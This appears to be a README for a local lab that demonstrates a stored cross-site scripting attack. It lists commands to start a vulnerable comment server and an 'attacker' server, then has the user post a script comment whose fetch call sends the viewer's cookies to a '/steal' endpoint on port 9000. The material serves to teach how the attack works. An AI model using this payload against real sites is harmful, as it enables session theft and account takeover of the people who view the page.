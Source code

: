 # Stored-XSS Server
1) To run server:
```cmd
.venv\Scripts\activate
pip install -r requirements.txt
python server.py
python attacker_server.py
```
2) Open http://127.0.0.1 or http://localhost
3) Register 2 new users (e.g. Alice and Bob)
4) Login as Alice, leave a comment (script below):
```html
<script>
	alert("your cookies has been stolen");
	fetch("http://127.0.0.1:9000/steal?cookie=" + document.cookie);
</script>
```
5) Logout form Alice and login as Bob.
6) See the result in Terminal.